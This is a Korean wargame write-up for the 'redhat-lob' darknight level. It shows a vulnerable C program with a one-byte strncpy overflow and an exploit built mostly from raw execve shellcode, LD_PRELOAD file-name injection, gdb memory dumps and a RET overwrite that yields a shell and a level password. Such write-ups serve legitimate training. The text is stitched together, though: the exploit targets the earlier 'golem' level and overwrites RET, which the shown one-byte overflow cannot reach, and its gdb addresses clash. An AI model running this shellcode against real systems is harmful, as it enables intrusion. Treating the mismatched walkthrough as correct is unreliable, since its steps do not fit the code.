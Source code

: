 ============================================================================================================
[redhat-lob] (12) darknight
============================================================================================================

.. graphviz::

    digraph foo {
        a -> b -> c -> d -> e;

        a [shape=box, label="argv[1] value"];
        b [shape=box, color=lightblue, label="strcpy"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="RET"];
        e [shape=box, label="program name address"];
    }

|

source code
============================================================================================================

해당 문제 소스코드는 다음과 같습니다.

.. code-block:: c

    #include <stdio.h>
    #include <stdlib.h>

    void problem_child(char *src)
    {
        char buffer[40];
        strncpy(buffer, src, 41);
        printf("%s\n", buffer);
    }

    main(int argc, char *argv[])
    {
        if(argc<2){
            printf("argv error\n");
            exit(0);
        }
        problem_child(argv[1]);
    }



Buffer Overflow
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 됩니다.

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- strcpy
    SFP     (4byte)
    RET     (4byte)
    argc    (4byte)
    argv    (4byte)
    ----------------
    HIGH    
    ================

|


exploit
============================================================================================================

쉘코드 파일명을 공유 라이브러리로 등록
--------------------------------------------------------------------------------

기존에 사용한 쉘코드에는 \x2f 값이 있기 때문에 정상적으로 쉘코드가 동작하지 않습니다.

\x2f가 없는 쉘코드로 파일명을 생성하도록 합니다.

공유 라이브러리 영역에 쉘코드로 파일명을 등록합니다.

.. code-block:: console
    
    $ gcc -fPIC -shared -o `python -c 'print "\x90"*40 + "\x31\xc0\x50\xba\x11\x11\x11\x11\x81\xc2\x1e\x1e\x62\x57\x52\xba\x11\x11\x11\x11\x81\xc2\x1e\x51\x58\x5d\x52\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'` golem.c

    $ export LD_PRELOAD=./`python -c 'print "\x90"*40 + "\x31\xc0\x50\xba\x11\x11\x11\x11\x81\xc2\x1e\x1e\x62\x57\x52\xba\x11\x11\x11\x11\x81\xc2\x1e\x51\x58\x5d\x52\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`

gdb를 통해 공유 라이브러리에 올라간 쉘코드 주소를 확인합니다.

.. code-block:: console

    (gdb) b* main
    Breakpoint 1 at 0x8048500
    (gdb) r
    Starting program: /home/skeleton/golem2
    /bin/bash: /home/troll/.bashrc: Permission denied

    Breakpoint 1, 0x8048470 in main ()
    (gdb) x/100x $esp-3000

    ===========     =============== =============== =============== ==========
    0xbfffeef4:     0x000005f0      0x0000004d      0x0000028d      0x00000319
    0xbfffef04:     0x000005a7      0x00000514      0x0000020c      0x00000659
    0xbfffef14:     0x000002a4      0x0000003f      0x00000311      0x000001fe
    0xbfffef24:     0x00000000      0x0000050f      0x00000446      0x00000000
    0xbfffef34:     0x00000500      0x0000054e      0x000006d6      0x0000068b
    0xbfffef44:     0x00000000      0x0000037d      0x00000000      0x0000038c
    0xbfffef54:     0x00000000      0x000000cb      0x0000059b      0x00000707
    0xbfffef64:     0x00000557      0x00000000      0x00000564      0x00000000
    0xbfffef74:     0x00000301      0x0000048e      0x00000550      0x00000000
    0xbfffef84:     0x0000067f      0x00000000      0x00000000      0x00000715
    0xbfffef94:     0x000005e9      0x0000060d      0x00000529      0x000003a4

    (중략)
    0xbffff604:     0xbffff64c      0x00000002      0x40023fd0      0x40013c00
    0xbffff614:     0x4000ba15      0x40013868      0x40000814      0x400041b0
    0xbffff624:     0x00000001      0xbffff634      0x40001528      0x000002c8
    0xbffff634:     0x00000000      0x080482d0      0x00000000      0x00000001
    0xbffff644:     0x40000824      0xbffff654      0x400075bb      0x40017000
    0xbffff654:     0x00002fb2      0x40013868      0xbffff7e4      0x4000380e
    0xbffff664:     0x40014428      0x90902f2e      0x90909090      0x90909090
                                        ^
    0xbffff674:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbffff684:     0x90909090      0x90909090      0x90909090      0xc0319090
                                                                        ^
    0xbffff694:     0x1111ba50      0xc2811111      0x57621e1e      0x1111ba52
    0xbffff6a4:     0xc2811111      0x5d58511e      0x50e38952      0x31e18953
    ===========     =============== =============== =============== ==========

|

RET 주소를 공유 라이브러리 로드 주소로 변경하여 공격 진행
--------------------------------------------------------------------------------

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- "\x90"*40
    SFP     (4byte)  <- "\x90"*4
    RET     (4byte)  <- shared libc address
    argc    (4byte)  
    argv    (4byte)  
    ----------------
    HIGH    
    ================

|

공유 라이브러리 주소 : nop(40 byte) + shellcode (39 byte) 

argv[1] : nop(44 byte) + 공유 라이브러리 주소

.. code-block:: console

    $ ./golem `python -c 'print "\x90"*44+"\x82\xf6\xff\xbf"'`

    bash$ whoami

    golem
    bash$ my-pass
    euid = 511
    cup of coffee

